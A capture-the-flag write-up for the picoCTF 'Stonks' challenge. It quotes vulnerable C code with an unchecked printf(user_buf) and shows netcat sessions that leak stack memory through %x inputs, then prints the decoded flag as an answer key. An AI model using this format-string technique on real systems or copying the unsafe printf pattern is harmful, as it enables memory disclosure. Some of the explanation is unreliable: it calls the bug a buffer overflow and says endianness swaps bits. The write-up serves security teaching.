



# Stonks


20 points

Author: madStacks
Description:

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. 
I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 33411


<details>
  <summary>Hints</summary>
  
<details>
    <summary>Hint1</summary>
            
### madStacks hint:
* Okay, maybe I'd believe you if you find my API key.
    
</details>
  
<details>
    <summary>Hint2</summary>

### Betim's hint:
* a printf function looks fishy somewhere in this program.

</details>

<details>
    <summary>Hint3</summary>

### Betim's hint:
* Maybe a %x can buy you some cool stocks

</details>

</details>


<details>
    <summary>Solution</summary>

### Solution
  * the madstacks hint is super unhelpful, but we can figure this out
  * A good place to start is the vuln.c program, take a look to see if you can figure it out before i tell you at the bottom

```
int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);

        int money = p->money;
        int shares = 0;
        Stonk *temp = NULL;
        printf("Using patented AI algorithms to buy stonks\n");
        while (money > 0) {
                shares = (rand() % money) + 1;
                temp = pick_symbol_with_AI(shares);
                temp->next = p->head;
                p->head = temp;
                money -= shares;
        }
        printf("Stonks chosen\n");

        // TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);

        // TODO: Actually use key to interact with API

        view_portfolio(p);

        return 0;
}
```

If this is your first time doing Binary Exploitation it might not be that obvious, it wasn't obvious to me either!

<Badge type="info" text="But take a look at this line"/>

```
printf(user_buf);
```

* What this line does is print out the userbuffer, which has been malloc'ed, but thats not the biggest thing about this

this is the paremeters for printf in C
```
printf [format] [argument]
``` 

* Essentially what printf(user_buf) is only taking in the argument and no formart! This is where we can exploit this. 
* When given only one paremeter we give printf an argument **or** parameter, that means we can give it %x or %s or whatever format we want for printf

<Badge type="info" text="btw we want to use %x" />

* when we provide something like %x will try to find the second argument, and when it can’t find anything, it will start printing data from the stack. 

Heres a visualization of the stack


now, its time to text if this really works...

```
┌──(kali㉿kali)-[~]
└─$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
8ac6390
Portfolio as of Mon Mar 11 15:50:56 UTC 2024


4 shares of CMR
19 shares of U
15 shares of GOF
30 shares of JL
162 shares of PRUT
Goodbye!

```

And it turns out it does! By inputing %x we can print data from the stack, 

and if we do this multiple times...

```
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?

Buying stonks with token:
96e5330804b00080489c3f7f4fd80ffffffff196e3160f7f5d110f7f4fdc7096e4180196e531096e53306f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ff94007df7f8aaf8f7f5d440c5ad420010f7decce9f7f5e0c0f7f4f5c0f7f4f000ff946e58f7ddd68df7f4f5c08048eca
Portfolio as of Mon Mar 11 16:16:15 UTC 2024


1 shares of SDEO
175 shares of I
Goodbye!
```

But, if you input all of this hex into something like cyberchef it wont come out right, thats because the machine that runs this is a little-endien machine.
* this basically means it swaps the bits around when displaying them

this is a visual for little-endienness 


Now knowing this lets put it in cyberchef!



* Although this does look like the answer it looks off
* since this is related to buffer overflow (which is what we're doing)
  * 1 byte can write over another so we can remove the hex values from the beginning that don't show us the flag



And there you go! We can now see the flag!

flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}

</details>